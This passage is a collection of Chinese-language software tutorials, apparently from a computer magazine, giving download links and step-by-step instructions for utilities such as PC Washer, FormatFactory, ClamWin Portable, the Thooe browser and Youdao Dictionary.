**第四步：** 然后进入“详细信息”窗口，在这里我们可以看到各个选项扫描结果，而且还可对它们进行全选删除。选择需要删除的文件后，单击“立即删除”。

**第五步：** 删除完毕后，软件自然会自动弹出报告，然后我们单击“确定”即可。这样，我们系统里的那些“垃圾”就被我们轻松快捷地清理掉了。

### 卸载没用的程序，减轻内存的负担

随着我们电脑使用时间的增长，软件程序使用得越来越多，而过多的杂乱的程序对内存来说是个很重的负担，可用内存的逐步减少自然会拖慢系统运行速度。怎么办呢？有没有好的解决方法？下面，我们就借助PC Washer的卸载管理器的帮忙，整理那些杂乱的程序。

**第一步：** 单击软件界面左侧的“工具”图标，打开工具选项界面，选择单击“卸载管理器”（见图2）。



**第二步：** 然后在“卸载管理器”窗口中我们就可以查看到系统的所有已安装软件以及详细的版本信息，这里我们可以根据个人需要对一些没必要的软件进行卸载作业。

**第三步：** 单击选中需要卸载的软件程序，然后单击“卸载”按钮即可实现对其卸载。卸载完没必要的软件后，你就会发现电脑的速度比以前变快了。

### 删除没必要的启动程序，让电脑重新轻装上阵

我们的电脑开机后，有些软件或程序就会随着系统启动而自动运行，当然这些软件或程序有些不是一开机便会用得到的程序，它们开始时是自作主张随系统一同启动。而我们要知道，开机启动程序越多，开机启动越慢，大大浪费系统的资源，拖慢电脑运行的速度。下面，我们就来通过PC Washer的启动管理器，为电脑减压，让其重新轻装上阵。

**第一步：** 单击软件界面左侧的“工具”图标，打开工具选项界面，选择单击“启动管理器”。

**第二步：** 然后在“启动管理器”窗口中我们可以查看到当前电脑自动启动项目，在这里可以对那些没必要的启动程序进行删除。

**第三步：** 单击选中需要删除的启动程序，然后单击“删除”，再单击“确定”即可。最后重新启动电脑，你就会发现电脑开机启动快了很多。

通过PC Washer的一系列清理工作，我们的电脑当然是重新恢复当初的英姿，我们也再度享受了极速前进的快感。朋友，假如你的电脑运行速度也越来越慢，那就快点行动吧，给你的电脑来一次全面的清洁工作！

## 让桌面“动”起来，体验精彩的3D效果

可能很多人都早已厌倦了Windows千篇一律、墨守成规的静态桌面。有没有考虑过让我们的桌面“动”起来，颠覆平面走向立体，体验3D桌面的乐趣呢？3D桌面软件可以轻易帮我们实现这个愿望，让桌面更加美轮美奂，动感十足，给我们带来一番别样的感受。

**第一步：** 下载Yod'm 3D软件（下载地址：http://nj.onlinedown.net/soft/59089.htm）。它是一位法国软件爱好者编译的虚拟桌面程序，可以让我们的系统桌面呈现3D效果，比Vista的3D更酷。下载完后，解压运行“setup.exe”文件，一路单击下去即可完成软件安装。

**第二步：** 安装完成后，双击桌面上的软件图标。程序首次运行会弹出一个界面，在界面上单击“language”标签，选择语言设置成简体中文即可，然后单击“确定”按钮把它确定下来。

**第三步：** 单击“快捷键（热键设置）”标签，设置此程序的快捷键。在这里是让我们设置桌面3D效果控制键的快捷键（见图）。



**第四步：** 设置鼠标控制桌面3D各种效果。单击“Mouse（鼠标）”标签，进行鼠标设置，可以根据个人喜好和习惯选择好各项功能。

**第五步：** 别忘了设置桌面3D效果的缩放控制，单击“缩放”标签，通过移动滑块选择一定的指数，对缩放比例、缩放快捷键、移动窗口缩放比例等进行设定。

**第六步：** 进行桌面3D效果的显示设置，单击“显示”标签，根据个人喜好和习惯，对背景材质、立方体透明度、背景等进行设置。

**第七步：** 假如想对3D桌面效果进行direct access（直接存取），还可以单击“Desktop”标签，进行此程序的Desktop桌面设置。

**第八步：** 所有的设置都大功告成后，单击“确定”按钮把一切设置确定下来。接下来，我们就可以轻松地直接体验此程序的虚拟3D功能。这里，我们可以用设置好的快捷键进行操作，查看显示效果。其中，Ctrl+Shift+Left/Right=翻转桌面，Ctrl+Shift+Up=激活并显示远看效果，按Left或Right进行反转，Ctrl+Shift+Down=激活并显示近看效果，按Left或Right进行反转，长按Ctrl+Shift可以利用鼠标左键反转，利用滑轮进行放大或缩小。

如果你对平时那些墨守陈规的平面桌面心生厌恶，对那些漂亮的静态壁纸也无动于衷，不妨试一下，体验更多精彩的3D效果桌面带来的乐趣吧！

## 享受读书乐趣

阅读的电子书是不是会让你觉得很疲倦？如果让冰冷的电子书融进你的思想，可以编辑、可以批注、可以写进你的思想，甚至可以随时插入书页，你是不是会爱上电子书？若你可以成为书籍的制作者和发布者，把你的书和你的思想发布到互联网，就更炫了！我们可以通过iRead（下载地址：http://www.newhua.com/soft/73391.htm）实现这些功能。

**第一步：** 下载iRead软件，解压缩安装软件。打开软件，单击“读书”按钮，再单击“我书柜里的书”选项，选择书名以后，在下方就会显示该图的预览图及简介。

**第二步：** 双击想看的书，则以全屏模式显示该书；也可以鼠标右键选择“简洁显示”的方式，或单击右上角的简洁模式图标。

**第三步：** 单击右下角的翻页按钮进行翻页阅读，四个按钮分别是：首页、上一页、下一页、尾页。还可以设置自动翻页，单击“自动翻页”按钮，选择“设定时间间隔”选项，输入翻页的时间间隔，以秒为单位。



**第四步：** 我们如果想快速查找阅读的位置，可以通过iRead提供的书签功能实现。单击“书签”按钮，在弹出的书签管理窗口中单击“新增”按钮，输入书签的标题，然后单击“确定”按钮（见图1）。

**第五步：** 如果我们想复制书中的文本，则可以右击选择“文本模式”选项，将书中的内容复制出来。

**第六步：** 在纸质的书本上我们可以随意地进行标注、勾画，在电子书上也可以做到。在iRead中，将鼠标移动到书本的右上角，会弹出一些标注工具，用这些工具可以对文章进行批注。

**第七步：** 我们还可以制作自己的电子书，打开iMaker.exe或单击主界面工具栏上的“自己做书”按钮，在弹出的窗口中填写书籍的信息，导入素材，最后制作成书（见图2）。



## 找个伴侣增强IE功能

文/TMG qf

Internet Explorer浏览器是Windows默认安装的一款浏览器，但是它与如今的一些浏览器相比，显得功能单一，在一定程度上逊色了不少。那么怎样才能提高Internet Explorer浏览器的性能呢？我们可以运用IE伴侣（下载地址：http://www.newhua.com/soft/62107.htm）帮助用户更好地运用IE浏览器，提高IE浏览器的性能。

**第一步：** 下载IE伴侣，解压缩安装运行软件。首次使用IE伴侣，软件会提示用户注册一个伴侣账号，按照提示填写好各项信息。

**第二步：** 进入IE伴侣的起始页，起始页罗列出了经常浏览、上次浏览、历史浏览、网页大全4项功能，可以让用户更方便地浏览以前浏览过的内容。

**第三步：** IE伴侣可以对IE的搜索栏以及上网速度进行进一步的加强。打开IE伴侣配置页，选择“增强选项”，对搜索栏、老板键、上网速度等选项进行配置。

**第四步：** IE伴侣还为用户提供实时的智能联想输入功能，还有翻译以及网站排名功能。在IE伴侣配置页中，单击“实用工具”选项，可开启IE伴侣拼词、IE伴侣翻译、网站排名的功能（见图1）。



**第五步：** 设置鼠标手势，在IE伴侣配置页中，单击“鼠标手势”选项，可以对各种鼠标手势进行设置（见图2）。



**第六步：** IE伴侣的广告拦截可以帮助你实现即时的广告拦截，帮你免除广告满天飞的烦恼。在IE伴侣配置页中，单击“广告过滤”选项，可以手动添加“黑名单”和“白名单”。

**第七步：** 想随时关注股市行情吗？安装IE伴侣以后可以很容易在IE的下方看到这个股票标识，让广大的股民炒股不再东找西寻。若想看具体的个股行情，可以在IE伴侣配置页中，单击“股票及时看”选项，输入股票代码，就可以查看个股具体信息了。

**第八步：** IE伴侣还提供了浏览器的备份与还原功能，可以定期备份收藏夹、Cookie、浏览器历史等信息，以便在重装系统或浏览器时恢复原有配置。在IE伴侣配置页中，单击“伴侣备份”选项。

**第九步：** 在安全方面，IE伴侣为用户提供了一键恢复、IE防火墙功能以及隐私保护功能，大大地提高了用户使用IE浏览器的安全系数。在IE伴侣配置页中的“一键恢复”、“IE防火墙”、“隐私保护”中分别设置。

## 视频轻松下载——狸窝下载器

文/TMG qf

很多网友喜欢在线观看视频，也有很多喜欢的视频想要收藏。可很多视频网站隐藏了视频的地址，无法下载，怎么办？狸窝下载器就能帮你这个忙，在你观看视频的同时，视频也被狸窝下载器下载下来了，非常方便。

**第一步：** 下载狸窝下载器软件（下载地址：http://www.newhua.com/soft/84844.htm），解压缩安装软件，运行软件。狸窝下载器分为“浏览器”和“下载”两部分，可以通过软件界面顶部的标签进行切换。

**第二步：** “浏览器”界面下，在地址栏输入想看视频的网址，下面部分将会跳转入视频页面。打开软件右上角的视频探测器，当我们播放视频时，软件会自动提示是否下载该视频（见图1）。



**第三步：** 在弹出的对话框中单击“下载”按钮，软件将自动对播放视频进行下载。单击“下载”标签，切换到下载界面，我们可以在“已经下载”中看到刚刚播放的视频文件。在“已经下载”目录下还有很多分类，可以把下载好的视频拖入相对应的分类中，方便管理。

**第四步：** 我们还可以对下载好的视频进行删除、重命名、格式转换等操作。右击视频，将会弹出菜单，有“删除”、“重命名”、“转换”等选项，单击想要进行的操作即可。

**第五步：** 单击软件右上角的设置按钮，弹出设置窗口。在此窗口中我们可以对下载的任务、视频音量、下载视频存放路径等进行设置，使我们下载视频的效果达到最佳（见图2）。



有了狸窝下载器，你将不会错失经典视频，对大量的下载视频也可以很好地分类管理，非常实用哦！

## 让时间随身温馨提示

文/TMG qf

你是不是经常忘了时间，在重要的日子需要提醒？如果你的电脑有查询农历、公历、属相、节气，设置提醒、关机、运行程序和打开文件的时间的功能那该多好。怎样才能实现这些功能呢？

**第一步：** 下载酷石英钟（下载地址：http://www.newhua.com/soft/2346.htm），解压缩软件。打开软件，即可以在桌面上看见一个圆形的钟，我们可以方便地更换时钟面板，酷石英钟提供了很多的样式供我们选择。在时钟面板上右击鼠标，弹出酷石英钟的设置界面，单击“界面设置”选项，弹出界面设置面板，在“界面方案”中选择自己喜欢的风格面板即可（见图1）。



**第二步：** 你也可以选择喜欢的图片作为时钟面板。在“钟面面板”的“面板图片路径”中单击“打开”按钮，在弹出的对话框中选择喜欢的图片。酷石英钟的程序中提供了100余种的钟面可供选择。

**第三步：** 我们可以为任务设定执行时间，可以在时钟启动时执行，也可以按周期执行。周期可以是公历或农历的日、周、月、年，也可以是某属相年的月日，还可以是某节日、某节气。任务类型有：提醒、关机、运行程序和打开文件。其中提醒方式有声音（支持mp3、mid和wav）、窗口、时钟震动等。在时钟面板上右击鼠标，弹出酷石英钟的设置界面，单击“定时设置”选项，弹出定时设置面板，首先导入“定时设置”，然后选择酷石英钟文件夹中的“定时设置示例.clk”，然后就可以自定义提醒设置了。

**第四步：** 设置闹钟提醒，在“设定时间”中设定提醒时间，在“提醒模式”中选择提醒模式，有声音提示和窗口提示两种，还可设置提醒语句。

**第五步：** 我们还可以在酷石英钟中查看万年历。钟内嵌超级万年历系统（1881～2060年）：可以显示公农历、节气，以及170种中国传统节日、国际节日和纪念日。支持键盘操作快速跳到相邻的日周月年，提供强大的自定义节日功能，增、改、删随心所欲。在时钟面板上右击鼠标，弹出酷石英钟的设置界面，单击“超级万年历”选项，弹出万年历设置面板，可以单击下方的“设置”按钮，进行相关设置（见图2）。



## 误删图片 轻松恢复

文/TMG qf

当你不小心把硬盘、数码相机、U盘等各种存储设备上的图片删除时，是不是会很懊恼，希望那些图片没有真正被删除而能够重新找回来？那么怎样才能恢复删除的图片呢？我们可以通过Smart Image Recovery来恢复误删的图片（下载地址：http://www.newhua.com/soft/69117.htm）。

**第一步：** 下载Smart Image Recovery，解压缩运行Smart Image Recovery.exe。在“选择设备”下拉菜单中选择需要扫描的分区。

**第二步：** 单击下面的“查找”按钮，即可对指定分区进行扫描。扫描过程中，软件会把扫描得到的图片按照 JPG、Gif、PNG三种格式分门别类，并分别计数和汇总，下方还有搜索进度条显示。

**第三步：** 如果你看到需要恢复的图片，即可单击“停止”按钮停止扫描。再单击相应数字后面的“>>>”按钮，右边的预览框中会显示软件扫描到的该格式的图片。再选中需要恢复的图片，单击“恢复”按钮，软件就会将这个图片恢复回来了（见图）。



**第四步：** 对恢复回来的图片进行保存，单击主界面右上角的齿轮按钮（设置按钮），在弹出的选项对话框中选择恢复图片所要保存的目录位置，设置好以后点击“保存”按钮。

这个恢复图片的方法是不是很简单很实用呢？以后就不必为误删图片而发愁了！

## 使用BusinessCards MX 精美名片手到擒来

当前，市场竞争日益激烈，商业交往非常频繁，人们之间的相互介绍已成为日常商务活动不可缺少的一部分，而名片的应运而生更是使得人们能更好地展示个性风貌。名片已成为现代社会应用最为广泛的一种交流工具，浓缩了一个人的风采甚至一个企业的群体文化。那么，你想不想让你的名片更时尚更个性呢？能够更好地展示你的自我形象和个人介绍呢？现在有了BusinessCards MX这款商业名片制作软件的帮忙，你所向往的名片手到擒来，让你轻松制作成功人士的必备名片。

下载地址：http://www.newhua.com/soft/62485.htm

下载BusinessCards MX这款名片设计软件安装程序，解压后开始安装，接着在弹出的选择安装语言窗口里我们选择“简体中文”选项，单击“确定”按钮即可正式开始安装软件，软件的安装过程十分简单，我们只需要一路单击“下一步”即可完成安装。安装完成后，双击软件图标，即可进入简洁明了的软件主界面。

### 使用模板套用，轻松快捷设计精美名片

时间紧凑，对自己的设计能力也不是很有信心，只想快速轻松就把名片设计好，假如还能保证名片设计得精美漂亮，那简直就太完美了。其实，BusinessCards MX完全有能力让你这个苛刻的需求轻松实现，它内含大量精美时尚的素材模板，便于用户直接使用模板套用，操作十分方便快捷，设计出的名片效果让你惊喜不已。

- 第一步：我们当然是选择那些精美模板，单击“文件”菜单，选择“打开”选项，或者也可以直接单击工具栏上的“打开模板”图标，然后我们就可以在打开的模板窗口中选择自己喜欢的模板了。
- 第二步：单击选中我们喜欢的模板后，此模板就会自动导入软件中，然后我们就开始对模板进行修改，首先把名片的格式选择好，在设置面板下的“项目设置”选项框里选择我们需要的名片格式。
- 第三步：接下来我们就要更换名片上的文字，单击模板上的文字，此时在界面的下方用红色框标示出自己选择的文字类别，在界面的右侧文字栏里可以输入我们需要的文字，同时将文字的字体、大小、颜色等等选择好。此外，我们还可以在编辑窗口里拖动文字调整到合适位置（见图1）。
- 第四步：将所有模板上的文字更换好后，我们还可以为名片添加一些其它元素，在界面左侧单击选择“添加”下面的那些工具，然后就可在编辑窗口里直接对名片进行修饰。



### 你的名片你做主，打造最个性最潮流的名片

假如你想让你的名片更加个性，对自己的设计能力也很有信心，你可以从头到尾自己DIY。你的名片你做主，打造最个性最潮流的名片，让你的名片展现你独一无二的风采。这里BusinessCards MX可以给你提供一个最方便实用的平台，让你可以随心所欲制作你的名片。

- 第一步：单击“文件”菜单选择“新建”选项，或者也可以直接单击工具栏上的“新建”图标，打开“创建一个新的模板”窗口，然后在“步骤1窗口”里单击“新建”按钮。
- 第二步：接着在弹出的“模板”窗口里我们选择新建名片的样式，此时我们也可以选择空白，便于更加自由地设计制作。
- 第三步：进入“步骤2”窗口，这里我们根据个人需要选择好名片的格式、尺寸，然后单击“下一步”按钮即可。
- 第四步：进入“步骤3”窗口，把名片上的内容填写好，然后单击“下一步”按钮。
- 第五步：进入“步骤4”窗口，这里我们只需单击“执行”按钮即可。然后名片信息自然会自动导入到软件中去。
- 第六步：把信息导入后，我们就可以对名片进行装饰了，通过界面左侧“添加”选项栏里的工具，发挥我们的设计能力，为名片添加上精美的装饰元素（见图2）。
- 第七步：此外，我们还可以在图层面板里，调整名片里的图片，以求更加完美。
- 第八步：设计完毕后，导出图片打印，你就可以拿这张独一无二的精美名片出去炫耀一番了，保证让你朋友羡慕不已。



## 视频转换易如反掌——超级转换秀

目前视频转换软件已经有不少，但是能够合并视频、添加字幕的视频转换软件并不多见。超级转换秀就是一款能够进行音视频转换，并且能简单编辑的软件。
下载超级转换秀（下载地址：http://www.skycn.com/soft/17654.html），解压缩安装软件，运行超级转换秀。

### 高清格式转换

超级转换秀支持转换的格式很多，其中包括mkv、ts、mts、m2ts、mod等各种高清视频格式。在音频上同样支持很多流行的新音频格式，如m4a、cue。对于导出格式，超级转换秀增加了高分辨率的GIF闪图导出功能。

- 第一步：单击“添加待转换视频”按钮，在弹出的菜单栏可选择添加一个文件或多个文件。在弹出的对话框中选择需要转换的文件。
- 第二步：这时会自动弹出“设置待转换的视频参数”窗口。在这个窗口中，我们可以设置视频的输出格式、大小、质量、解码器等（见图1）。设置好后单击“下一步”按钮。
- 第三步：这里可以设置截取分割视频，设置要转换视频的音视频起止时间。这里还可以给视频加个性标志，并确定标志的字体、位置及持续时间。设置好后单击“确定”按钮，回到软件主界面。
- 第四步：在“保存到”后输入转换输出的保存路径。再单击界面下方的“开始转换”按钮，进行视频转换。



### 添加字幕

在视频中经常会有制作者的信息、文字说明等，如何实现呢？超级转换秀就可以在视频中随意添加字幕。支持设定的参数非常之详尽，包括字体、大小、颜色、阴影、透明度、文字背景、淡入淡出效果、出现时间及文字位置等等。

- 第一步：在主界面上单击“为视频加字幕”按钮，超级转换秀提供了叠加文字、滚动字幕、个性商标三种方式。单击“叠加文字”标签，输入要添加的文字，设置它的字体、大小、颜色、效果、持续时间及摆放位置等等（见图2）。
- 第二步：单击“滚动字幕”按钮，除了和叠加文字一样的设置以外，还要设置滚动字幕的方向和速度，这样就能简便地制作出滚动字幕了。
- 第三步：给视频添加水印，单击“个性商标”标签，从本地选择一个要添加的水印图片。可以启用“淡入淡出”功能，这样图标的出现就不会很突兀，而且透明效果也非常出色，可与专业级的视频处理效果相媲美。



### 烧制光盘

超级转换秀还可以刻录DVD光盘，方便我们把转换好的视频直接刻成光盘。在主界面上单击“DVD烧录向导”按钮，进入烧制界面。单击“添加文件”按钮，选择一个要烧录的文件。再单击“开始生成”按钮，进行DVD光盘刻录就可以了。

## 音视频格式轻松转换——FormatFactory

每个多媒体软件都有各自支持的格式，有的音视频文件不一定符合多媒体软件所支持的格式，只好进行音视频格式转换。FormatFactory格式工厂就是一款能够帮你轻松进行音视频转换的软件，操作简单，支持多种视频、音频、图片、格式之间的转换及CD/DVD光盘或者ISO文件的转换。
下载FormatFactory（下载地址：http://www.onlinedown.net/soft/69033.htm），解压缩安装软件，运行FormatFactory，进入软件主界面。下面我们将以一部RMVB格式的电影转换成AVI的文件为例，介绍FormatFactory软件。

- 第一步：单击FormatFactory软件主界面左侧的“视频”按钮，若想转换音频格式则单击“音频”按钮；若想转换图片格式则单击“图片”按钮。
- 第二步：现要把电影转换成AVI格式，则单击“所有转到AVI”按钮。在弹出的对话框中选择一个要转换的视频文件。
- 第三步：设置视频的质量及大小。单击“高质量和大小”按钮，对视频流、音频流、字幕进行进一步的设置（见图）。
- 第四步：对于一次性要转换多个视频的情况，FormatFactory提供了批量转换的功能，这样就省去了手动添加的麻烦。在转换过程中，我们可以设置优先级，调整转换顺序。添加好文件后，回到主界面，单击“开始”按钮，进行格式转换。

| 配置 | 数值 |
|---|---|
| 屏幕大小 | 缺省 |
| 每秒帧数 | 缺省 |
| 比特率（kb/秒） | 缺省 |
| 视频编码 | MPEG4 (DivX) |
| 宽高比 | 自动 |

音频、图片及CD/DVD、ISO的格式转换与视频格式转换方法类似。FormatFactory能轻松进行各种格式转换，在转换时所占内存不是很大，如果想更快地转化，你可以在不用计算机时进行转换。

## 随时随地消灭病毒——便携式杀毒软件ClamWin Portable

文/TMG zlw

在电脑普及的今天，离开了电脑，我们的生活、工作将会陷入一片混乱，甚至濒临崩溃。电脑病毒往往是混乱的制造者，它悄悄地潜入了我们的电脑，并进行着一场声势浩大的劫杀，让我们苦不堪言。当然，有杀毒软件的保护，这样的浩劫发生的几率会大大的降低。不过优质的杀毒软件往往收费过高、文件也非常大，日常使用起来比较不方便。现在，我向大家推荐一款免费的可随身携带的杀毒软件——ClamWin Portable。

ClamWin这款免费开源杀毒软件相信大家不会陌生，我们今天向大家介绍的ClamWin Portable就是它的便携版，你只需要把小小的它拷贝到你的U盘、MP3等可移动存储设备中，使用时，它便能直接插入到任何Windows系统中，让你所使用的电脑可以随时享受它带来的优质服务——将病毒拒之门外。

ClamWin Portable主界面十分简单，三个菜单栏：“File”、“Tool”和“Help”，窗口中最醒目的也就是那几个可供选择查杀病毒的目标盘标识。下面我们就可以开始查杀病毒了！

- **第一步：选定查杀对象。**
在主界面下方的窗口中选定需要查杀病毒的目标盘或者目标文件，单击“Scan”按钮。

- **第二步：自动查杀病毒。**
接下去的工作就交给ClamWin Portable自动完成吧！其实在我们按下“Scan”的那一瞬间，ClamWin Portable就开始马不停蹄地开始对指定区域进行病毒查杀扫描了。

下载地址：http://www.newhua.com/soft/66376.htm

ClamWin Portable完成扫描后，会向使用者提供一份详细的检测报告。在这份报告里，用户可以得知扫描的文件数量、发现的病毒数量等信息。

下载后进行解压缩，然后进行安装，就可以使用了。

一番漫长的等待后，终于看到了ClamWin Portable的主界面。需要向大家交代一下，因为ClamWin Portable是一款国外软件，所以它是全英文操作的，但鉴于所涉及的单词很简单，相信使用起来还是不存在太大问题的。

- **第三步：手动移除病毒**
若是检测中发现了病毒，默认设置下的ClamWin Portable是不会立即对所查得病毒进行任何处理的，但它会提示用户对感染文件进行自行处理。此时，用户便可以选择“手动移除”或者“隔离”等操作，将查得的病毒彻底踢出。

ClamWin Portable在每次进行查杀病毒工作前都会先对病毒特征库是否有更新进行一番检查，如果此过程中检查出有尚未更新的病毒特征库，它便会提示使用者进行在线升级操作，以便在接下来的操作中更好地查杀病毒。这个升级过程比较缓慢，第一次使用时显得尤其漫长，需耐心等待。

说实话，我很喜欢使用ClamWin Portable这款软件。它不仅免费，所有人都可以使用。最重要的是它可以随身携带，为保护我们的电脑，时刻准备着。

## 文件快速分割——海啸文件分割器

文/TMG qf

虽然现在的移动设备容量都非常大，但我们还是常常遇到文件大小超过移动设备所剩容量，从而无法进行拷贝的情况。只好把文件进行分割，把一个大文件变成几个小文件来存储。不如找海啸文件分割器来帮忙，轻松对文件进行切割。

### 分割文件

- **第一步：** 下载海啸文件分割器（下载地址：http://www.onlinedown.net/soft/37881.htm），安装软件。运行海啸文件分割器，在“请选择源文件”处，单击“浏览”按钮，选择一个要进行分割的文件。
- **第二步：** 在“请选择保存到的目标文件”处，单击“浏览”按钮，选择一个保存目标文件的路径。
- **第三步：** 在“操作选项”中，选择“分割文件”项，再设置每个分割文件的大小可以填写具体的数值，单位为MB（见图）。
- **第四步：** 各项都设置好后，单击“分割”按钮，开始对文件进行分割。文件分割后，不管文件的扩展名如何修改，都不能正常运行。我们要好好保存所有文件哦，如果分割后的文件少了其中的一个或几个，就无法正常对文件进行合并了。


### 合并文件

分割后的文件要想再使用，必须经过合并才能被执行。所以我们必须把分割后的各个文件放在一个文件里，以进行合并。

- **第一步：** 在“操作选项”处，选择“合并文件”项。
- **第二步：** 在“请选择源文件”处，单击“浏览”按钮，选择所有要进行合并的文件。
- **第三步：** 在“请选择保存到的目标文件”处，单击“浏览”按钮，选择一个保存目标文件的路径。
- **第四步：** 各项设置好后，单击“合并”按钮，就可以将文件进行合并。就算是自己修改了文件名后的“hx...”值，也会合并成功。

## 网页随意浏览—— Thooe随E浏览器

文/TMG qf

你在浏览网页时是不是经常会遇到非法错误，浏览网页速度缓慢？那你可以试试Thooe浏览器了。Thooe浏览器是一款基于Internet Explorer内核的多窗口浏览器。从底层控制IE，节约系统资源，防止和减少非法错误的发生，多种个性便捷功能为你网上冲浪带来全新体验。

下载Thooe (下载地址：http://www.newhua.com/soft/35083.htm )，安装软件，打开Thooe浏览器。第一次使用随E，在页面中会弹出每日技巧小提示的对话框，对于新手来说是个不错的功能，我们可以很快地从这些小提示中大致了解软件的一些主要功能及特色，十分方便、实用。在开始使用之前，请务必先注册一个Thooe的账户，以便后面一些功能的使用。注册的方法很简单，在页面的右下角，单击，按照提示完成注册即可。

### 改变页面风格

在页面风格上Thooe浏览器追求简约之美，布局主要有顶部的菜单栏、工具栏、地址栏，中部的标签栏、浏览区以及下部的功能区组成。

软件提供精简版、简约版、冲浪版等多款布局供用户选择使用。我们可以单击菜单栏中的“查看”按钮，在弹出菜单中选择“布局”选项。这里提供了很多选择：简约版、精简版、冲浪板、完整版、IE7布局、IE6布局。根据需要选择一个自己喜欢的版式。

### 制定个性主页

现如今有很多导航网址，你有没有想过制作一个专属于自己的网址导航呢？Thooe浏览器的默认个性主页包含天气、网站导航、新闻、游戏等网友们常用的一些功能模块，你觉得这些不够？没关系，再加嘛。

单击“新标签”选项卡，然后单击页面中的“添加内容”按钮，在弹出的对话框中选择你喜欢的功能模块即可。接下来单击标签右侧的倒三角可打开标签编辑器，在编辑器中可对标签的名称、颜色以及整个标签的整体布局进行调整操作。

### 配置多用户

Thooe的账户配置可以根据自己的不同需求任意更改，且支持对于不同账户的配置内容上传至服务器功能，也就是说无论你身在何方，只要你登录你的随E账号即可很方便地上传和下载配置好的信息，随时随地享受冲浪的快感。

- **第一步：** 单击菜单栏中的“用户登录”按钮，在弹出窗口中填写用户名和密码，并登录。
- **第二步：** 登录后，弹出窗口会显示用户的基本信息、常用书签、常用便签选项卡。单击这些选项卡，我们可以方便地实现各种配置的上传、下载功能。例如要实现网络收藏夹，单击“用户账号”选项卡中的“同步收藏夹”按钮，即可将本地收藏夹的所有内容全部上传至个人账户中；以便用户随时调用。

### 一键存图

有很多网友喜欢在网上找一些漂亮的壁纸、图片，不过有时一张张保存很麻烦，如果利用Thooe的一键存图功能就很简单方便了。

先在软件的设置选项卡中，设置保存的一些相关设置，如保存的位置、格式等。接下来单击工具栏上的键来保存图片，这三个键分别为“保存”、“保存网页为图片”、“存所有图片”，我们可以根据需要选择保存方式（见图1）。

- “保存”
- “保存网页为图片”
- “存所有图片”



### 检测邮件

Thooe的邮件检测功能可以同时检测多个邮箱的收件箱情况，及时为用户提醒新来邮件，并迅速提示。

单击工具栏中的信封图标，并选择“邮件检测设置”。这时会弹出邮箱检测编辑对话框。然后单击“添加”按钮，输入邮箱的地址、服务器及端口参数。确定，稍等一会就会有邮件的提示了。

### 自动填表

如果你经常游荡于各大论坛，注册时填写数百遍同样的资料是件很痛苦的事情，还好，有了自动填表这一功能，使得这一枯燥的操作变得很简单。

首先单击页面地址栏左侧的魔棒按钮，打开魔棒设置选项卡，然后单击“添加”按钮。在弹出的对话框中输入你注册时经常使用的信息，单击“确认”按钮即可。在以后的注册中你就可以感受这个功能的强大之处。

### 过滤垃圾

一款好的浏览器当然少不了智能屏蔽以及垃圾过滤的功能，在Thooe浏览器中，此功能也是十分出色的。

单击菜单栏中的“工具”按钮，选择“智能屏蔽”按钮。Thooe浏览器提供了多种屏蔽方式，如禁止ActiveX插件下载、屏蔽弹出窗口、拦截广告数据、屏蔽浮动广告等等，可以根据需要选择这些选项（见图2）。

- 禁止ActiveX插件下载
- 屏蔽弹出窗口
- 拦截广告数据
- 屏蔽浮动广告



不管是从功能上，还是界面风格上，Thooe做得都相当出彩，是一款功能齐全、实用性强的浏览器。

## 提高K歌水平，我有ABPlayer

文/TMG qf

很多朋友喜欢K歌，如果有个电脑，再加上一个麦克风，就能在家中娱乐了！ABPlayer提供了这一功能，它是一款同时支持DVD双字幕的播放器，独家提供剧场播放模式。同时还具有记忆播放、角度旋转、5.1环绕立体声、音频和字幕延迟调整等酷炫的特色功能，可以让玩家更加灵活地控制播放效果。

下载ABPLayer软件（下载地址：http://www.onlinedown.net/soft/1262.htm），安装软件。打开后可以选择我们喜欢的音乐进行播放。

在软件界面左侧中，有“MTV频道”和“发烧音乐”选项。首先单击“发烧音乐”按钮，可以看到这里有很多音乐专辑菜单，并分门别类地排列着，有“大碟”、“风潮系列”、“古典音乐”等，能轻松找到自己喜欢的音乐。

点击“MTV频道”按钮，这里列出了各种MTV的菜单，包括港台、欧美、日韩、大陆地区，歌手姓名首字母，随意点击，中间就会显示有关热门歌手的名字，并且右边还列出了推荐的热门MTV。例如在搜索栏中输入歌名“Fly Away”，则搜索出6个相关MTV，单击鼠标放在MTV图像上出现的一个箭头图标，就开始下载MTV了，并在软件右侧的任务列表中显示出来（见图）。



ABPlayer也可以对视频进行调整，只要点击右上角的菜单按钮，选中“视频→旋转”，也能随意欣赏画面。

只要有电脑，再加上一个麦克风，通过ABPlayer，就能在家中独自练习K歌了。而且由于一般人的电脑上会储存着很多音乐文件，只要点击“本地媒体”，ABPlayer就会自动搜索本地电脑中的音乐文件并显示出来，让你想唱就唱。

## 有道词典 让桌面更丰富

文/TMG wyj

也许你是第一次听说桌面词典——真这样的话你还真有点过时了不是？也许你早就知道桌面词典，没准现在手下电脑里还装着一个——那么，你用的是什么桌面词典呢？是不是占据电脑空间不少、打开速度快不起来的那种呢？现在赶快搬个板凳出来，看看非常流行的这一款有道桌面词典（http://cidian.youdao.com），小巧迅捷，装在电脑上那可是相当方便。

下载速度很快，安装过程也很轻松，几乎不用费事，然后你的桌面上就会出现“有道桌面词典”的图标，双击打开，让它开始履行桌面词典的职责吧。

### 搜词

这是最常用的功能，在搜索框内键入要搜索的单词（如“桌面”），点击想查看的词条，有道下面会迅速展开相关释义，包括英汉翻译、网络释义、例句与用法、百科等（见图1）。查英文单词也非常简单，这里就不赘述了。



### 释义

如果只是解释个单词，这有道词典比起别的桌面软件还真没看出什么高深的地方，别急，这不是还没说完呢，这可是有道的绝招。一段时间不关注，网络的流行语朝着纷繁复杂的境界是越走越远，怎么样能最快地了解网络人类们的“暗语”呢？

在有道里找到“百科”一栏，键入要搜索的新新词语，例如“囧”，然后马上你就能了解这个字用在网络上的来历（见图2）。在“词典”一栏里搜索网络用语，以“Orz”为例，展开的词条里会努力地先把网络释义列举出来，然后体贴地列出例句以供观摩。



### 翻译

词典的一项重要工作是翻译，甭管是英译汉还是汉译英。点击“翻译”一栏，输入想翻译的语句，有道的中英文自动检测会帮你翻译出相关句子。简短的翻译看起来还挺地道，不过复杂些的就有些小牛唇马嘴的味道。

### 记忆

查单词的时候你完全可以顺手点一下右上角的星星图案，将这个单词添加进单词本里。温故而知新，要学而时习之，在有道的“更多”栏里你会发现三个字“单词本”，点开之后就会发现自己之前添加的各个单词，没事就可以来这里背诵背诵单词，体会循序渐进的学习乐趣。

点开“英语百宝箱”就能链接到一个网页，在这里有道会提供更多的在线服务，怎么样，看着还挺丰富吧？

这么一个小软件，用起来非常顺手，如果你正琢磨着装个桌面词典，不妨就先试一试有道，用了就忘不了！

